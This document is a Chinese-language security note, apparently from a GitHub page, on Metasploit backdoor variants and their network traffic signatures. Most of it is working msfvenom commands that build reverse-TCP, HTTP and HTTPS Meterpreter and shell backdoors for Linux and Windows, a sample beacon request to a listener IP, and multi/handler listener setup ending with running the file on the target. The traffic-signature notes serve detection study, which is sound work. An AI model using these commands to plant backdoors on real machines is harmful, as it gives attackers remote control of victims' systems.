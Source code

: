 ## **MSF不同后门方式的特征**
 生成不同类型可执行文件，反向tcpshell后门。
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=7777 -f elf >shell.elf


msfvenom -p windows/x64/shell/reverse_tcp lhost=xx lport=6666 -f exe -o 6666.exe
返回shell交互，流量包明文

msfvenom -p windows/meterpreter/reverse_tcp lhost=xx lport=6666 -f exe -o 6666.exe
返回meterpreter交互，流量包加密。
默认32位后门

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xx lport=6666 -f exe -o 6666.exe
指明才是64位后门

http&https
msfvenom -p windows/meterpreter/reverse_http lhost=xx lport=6666 -f exe -o 6666.exe

msfvenom -p windows/meterpreter/reverse_https lhost=xx lport=6666 -f exe -o 6666.exe
https也有和CS一样的tls的ja3和ja3s特征值。
```
第一种MSF控制上线后门变动：（特征变动）
变动模式-shell meterpreter
变动位数-x64 x32
变动协议-tcp http https
变量连接-正向 反向（bind主动连接 reverse反向连接）


http明文特征类似如下：
```
GET /VFP20AZErAzHScZIpllgehgdrj8x49sqfvgK8YGkFZGAqMuTx7fNWHcaYGq6_yIN_47HxdP6DaCB_0rYUj-Y7q4/ HTTP/1.1
Cache-Control:no-cache
Connection:Keep-Alive
Pragma:no-cache
User-Agent: Mozi1la/5.0 (Macintosh; Intel Mac 0S X 12.2; rv:97.0) Gecko/20100101 Firefox/97.0
Host: 47.94.236.117:6666
```

## **MSF服务端监听**
```
use exploit/multi/handler
使用对应监听模块
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6666
run
```
目标机运行可执行文件即可。